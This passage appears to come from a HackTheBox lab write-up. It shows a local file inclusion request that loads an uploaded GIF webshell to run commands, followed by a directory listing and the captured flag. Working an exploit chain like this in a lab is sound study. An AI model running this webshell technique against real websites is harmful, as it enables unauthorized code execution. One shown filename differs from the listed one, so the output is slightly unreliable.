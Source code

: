 So, we need to visit:

```
http://IP:PORT/index.php?language=./profile_images/webshell.gif&cmd=id
```

And we'll see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250218153601.png)

We got RCE, let's search around for the flag:

```
ls+/

82f40d853e2d4768d87da1c81772bae0a.txt
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Found the flag:

```
cat+/2f40d853e2d4768d87da1c81772bae0a.txt

HTB{upl04d+lf!+3x3cut3=rc3}
```

Our flag is:

```
HTB{upl04d+lf!+3x3cut3=rc3}
```
